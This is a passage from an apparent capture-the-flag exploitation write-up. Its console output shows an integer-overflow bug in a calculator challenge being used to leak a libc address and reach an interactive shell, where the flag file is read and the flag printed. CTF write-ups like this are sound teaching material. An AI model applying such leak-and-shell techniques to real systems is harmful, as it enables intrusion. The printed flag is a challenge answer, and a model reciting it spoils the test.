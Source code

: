 ```console

>
3
 -1 * -65338 = 65338
Something odd happened!
Do you want to report the problem?
>
 Problem ingored

[*] puts locate on: 0x7fb46fa22aa0
[*] puts libc.address: 0x7fb46f9a2000

Insert the amount of 2 different types of recources:
-1 -65338
 Choose operation:

1. ➕

2. ➖

3. ❌

4. ➗

>
3
 -1 * -65338 = 65338
Something odd happened!
Do you want to report the problem?
>
[*] Switching to interactive mode
 Problem ingored
$ cat flag.txt
CHTB{1nt3g3r_0v3rfl0w_s4v3d_0ur_r3s0urc3s} 
```

And we get the flag ```CHTB{1nt3g3r_0v3rfl0w_s4v3d_0ur_r3s0urc3s}```.
